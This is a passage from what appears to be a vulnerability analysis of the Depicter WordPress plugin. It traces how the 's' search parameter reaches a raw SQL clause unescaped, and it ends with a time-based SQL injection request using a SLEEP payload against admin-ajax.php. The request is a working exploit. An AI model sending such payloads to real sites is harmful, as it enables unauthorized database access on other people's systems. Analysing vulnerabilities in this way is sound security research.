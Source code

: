 The `if` condition shows that when `includeFields` is empty, `getLeadsResults` is called. Let’s look at it:

```php
protected function getLeadsResults( $args ){
    // Purpose of joining tables is being able to search in leadField values as well
    $leadTable = $this->lead()->getTable();
    $leads = Lead::new()->select(
        "{$leadTable}.id",
        "{$leadTable}.source_id",
        "{$leadTable}.content_id",
        "{$leadTable}.content_name",
        "{$leadTable}.created_at",
        "lf.name as fieldName",
        "lf.value as fieldValue"
    )->join( "{$this->leadField()->getTable()} AS lf", "{$leadTable}.id", "=", "lf.lead_id" );

    // other logic

    if( ! empty( $args['s'] ) ){
        $search = "'%". $args['s'] ."%'";
        $leads->appendRawWhere('AND', "( lf.value like {$search} OR {$leadTable}.content_name like {$search} )");
    }

    $results = $this->paginate( $leads, $args );
}
```

Here, the `s` parameter (which the patch protects) is concatenated directly into the query using `appendRawWhere`.
Part of the resulting query would be:

```sql
AND (lf.value like '%s_here%' OR leadtable.content_name like '%s_here%')
```

👉 Thus, when sending a **GET request** to `/wp-admin/admin-ajax.php` with parameters:

```
action=depicter-lead-index&s=payload_here
```

* `list` is called with only the `s` parameter provided.
* `getResults` receives `$args`.
* The condition `if( ! $args['includeFields'] )` triggers `getLeadsResults`.
* The vulnerable SQL query executes, leading to SQL Injection.

## Exploit

### Detect SQLi

Send a **GET request** with a time-based SQLi payload:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```
